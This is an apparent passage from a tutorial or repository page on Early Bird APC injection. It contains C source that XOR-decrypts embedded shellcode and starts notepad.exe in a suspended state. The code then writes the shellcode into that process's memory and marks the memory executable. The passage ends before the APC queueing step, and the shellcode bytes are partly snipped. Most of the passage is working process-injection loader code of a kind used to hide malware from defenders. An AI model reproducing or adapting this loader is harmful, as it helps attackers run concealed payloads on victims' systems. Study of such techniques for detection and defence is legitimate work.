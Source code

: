 The technique we'll use instead is a variation of APC injection that involves spawning a process in a suspended state, allocating memory & writing shellcode to private commit section, then queuing an APC routine to the shellcode- then the thread is resumed.

A more thorough and detailed explanation can be found: [here](https://0xmani.medium.com/early-bird-injection-05027fbfb794)

```c
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] = {
    0x9a, 0x7e, 0xb4, 0x87, 0xc2, 0x8a, 0xa3,
    [... SNIP ...]
    0x0c, 0x58, 0x62, 0x3a, 0x23, 0xef, 0xb9, 0x99, 0xb4 
};

unsigned char key[]       = {
    0x66, 0x36, 0x37, 0x63, 0x32, 0x62, 0x63, 
    [... SNIP ...],
    0x37 
};

void Xor( unsigned char * data, int data_len, unsigned char * key, int key_len ) {
    for ( int i = 0; i < data_len; i++ ) {
        data[i] = data[i] ^ key[i % key_len];
    }
}

int main() {

    STARTUPINFO         StartupInfo       = { 0 };
    PROCESS_INFORMATION ProcessInfo       = { 0 };
    LPCSTR              lpApplicationName = "C:\\Windows\\System32\\notepad.exe";
    LPVOID              lpAddress         = NULL;
    PDWORD              lpflOldProtect    = NULL;
    BOOL                StartupSuccess    = FALSE;
    BOOL                WriteSuccess      = FALSE;
    BOOL                ProtectSuccess    = FALSE;

    Xor( shellcode, sizeof( shellcode ), key, sizeof( key ) );

    if ( ! ( StartupSuccess = CreateProcessA( lpApplicationName, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &StartupInfo, &ProcessInfo ) ) ) {
        printf( "CreateProcess failed (%d).\n", GetLastError() );
        return 1;
    }

    if ( ! ( lpAddress = VirtualAllocEx( ProcessInfo.hProcess, NULL, sizeof( shellcode ), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE ) ) ) {
        printf( "VirtualAllocEx failed (%d).\n", GetLastError() );
        return 1;
    }

    if ( ! ( WriteSuccess = WriteProcessMemory( ProcessInfo.hProcess, lpAddress, shellcode, sizeof( shellcode ), NULL ) ) ) {
        printf( "WriteProcessMemory failed (%d).\n", GetLastError() );
        return 1;
    }

    if ( ! ( ProtectSuccess = VirtualProtectEx( ProcessInfo.hProcess, lpAddress, sizeof( shellcode ), PAGE_EXECUTE_READ, &lpflOldProtect ) ) ) {
        printf( "VirtualProtectEx failed (%d).\n", GetLastError() );
        return 1;
    }
```